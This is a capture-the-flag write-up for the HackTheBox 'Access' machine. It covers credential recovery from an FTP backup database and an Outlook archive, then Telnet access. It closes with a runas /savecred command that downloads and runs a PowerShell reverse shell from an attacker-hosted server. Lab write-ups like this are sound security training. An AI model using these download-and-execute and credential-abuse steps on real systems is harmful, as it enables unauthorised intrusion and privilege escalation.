 ```yaml
---
title: 'HTB: Acces'
date: '2020-11-22 02:40:00 -0400'
categories:
  - HackTheBox
  - Write-ups
tags:
  - HTB
published: true
---
```



IP: 10.10.10.98

We'll start off with an Nmap scan.
![c81ad7302169efc9d20cd42119386a75.png](./../../assets/img/c81ad7302169efc9d20cd42119386a75.png)

FTP allows for anonymous login.
![a67a1812b8c6f9d1ad46159e0eb64d47.png](./../../assets/img/a67a1812b8c6f9d1ad46159e0eb64d47.png)
![fc62e83b88b06195fabfcf25cf710612.png](./../../assets/img/fc62e83b88b06195fabfcf25cf710612.png)

We have to toggle FTP to binary mode with `bin` in order for the transfer to not error out.
![956fa92fa3dfec1c02f8424893061807.png](./../../assets/img/956fa92fa3dfec1c02f8424893061807.png)
![6af27b67188cf909d2d1ca4850892cc6.png](./../../assets/img/6af27b67188cf909d2d1ca4850892cc6.png)

There are a lot of tables in the backup database.
![4719cff0f388dbe7b3bcd97ad0861cde.png](./../../assets/img/4719cff0f388dbe7b3bcd97ad0861cde.png)

Using `mdb-sql backup.mdb` will show things nicely.
```
list-tables
go
```
![6015579be26d78bf27db0dbf31320fba.png](./../../assets/img/6015579be26d78bf27db0dbf31320fba.png)

There is an `auth_user` table. I can export the data with `mdb-export backup.mdb auth_user`

![1ec7e9068bcf95b969c803c53f890501.png](./../../assets/img/1ec7e9068bcf95b969c803c53f890501.png)

Trying the different credentials doesn't get me into the Telnet port.
![c9517dc7b4658092fdb39952fcb6c0d1.png](./../../assets/img/c9517dc7b4658092fdb39952fcb6c0d1.png)

It does validate that there is an engineer account on the system though. We're unable to unzip the Access Control archive.
![1afb9e22ffabd4debee39e6b490e338e.png](./../../assets/img/1afb9e22ffabd4debee39e6b490e338e.png)

7Zip is able to open it, but it's password protected.
![3a39c844e297cc023785cfc8c6569326.png](./../../assets/img/3a39c844e297cc023785cfc8c6569326.png)

We're able to extract the archive using “access4u@security” as the password.
![907bc52d9cb923321aa3c9a15dc14826.png](./../../assets/img/907bc52d9cb923321aa3c9a15dc14826.png)

Looks like the file is an outlook email folder.
![f151fee990acd4e645a9afbb0798de31.png](./../../assets/img/f151fee990acd4e645a9afbb0798de31.png)

Outlook emails can be read with `readpst`.
![4e31c48f2599a06626082124fe7c9b45.png](./../../assets/img/4e31c48f2599a06626082124fe7c9b45.png)
![80261abf8d907ccce8395f206a8e2751.png](./../../assets/img/80261abf8d907ccce8395f206a8e2751.png)

Now we have a mbox file which can be read with `cat Access Control.mbox`.
![c8f178c602ca2cfae8935f1a52aafba4.png](./../../assets/img/c8f178c602ca2cfae8935f1a52aafba4.png)

Now we should be able to get into the system with Telnet using `security:4Cc3ssC0ntr0ller`.

![ed59975964e7a752f7fd21a7dd04cd61.png](./../../assets/img/ed59975964e7a752f7fd21a7dd04cd61.png)

The user flag is on the desktop.

![ad516708f42274fd535c52f706581959.png](./../../assets/img/ad516708f42274fd535c52f706581959.png)

After some based Windows enumeration we see that there are stored admin creds.
![a6e740727aa4b8398ea1d4a99b2a4338.png](./../../assets/img/a6e740727aa4b8398ea1d4a99b2a4338.png)

They can be found in the credential manager.
![d593cb21c91a0fa3f1f68d0f5ce5d9f7.png](./../../assets/img/d593cb21c91a0fa3f1f68d0f5ce5d9f7.png)

The credentials can't be read.
![f170c5247f527aa6aa9fb2a4d6fb9528.png](./../../assets/img/f170c5247f527aa6aa9fb2a4d6fb9528.png)

We'll host a copy of [mini-reverse](https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1). Then we can download it to the target using Certutil.exe. Update the IP and port; 443 is usually a safe port.
![47eb7ef70ed7b91b218c59c07783b53d.png](./../../assets/img/47eb7ef70ed7b91b218c59c07783b53d.png)
![889333b80ed572e70533b1b0521c588b.png](./../../assets/img/889333b80ed572e70533b1b0521c588b.png)
![6b60a760c03e40d9fc004d806a81bf75.png](./../../assets/img/6b60a760c03e40d9fc004d806a81bf75.png)
![ff4449f6e8a4806bbbe6580eabf1ff46.png](./../../assets/img/ff4449f6e8a4806bbbe6580eabf1ff46.png)

Now we should be able to combine this with RunAs to get a shell as Administrator. 
```
runas /user:ACCESS\Administrator /savecred "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.34:80/mini-reverse.ps1')"
```
![9ef71313283452cb2832c634016d3e09.png](./../../assets/img/9ef71313283452cb2832c634016d3e09.png)
![05196a3517189ef94d8b32023612f5a9.png](./../../assets/img/05196a3517189ef94d8b32023612f5a9.png)
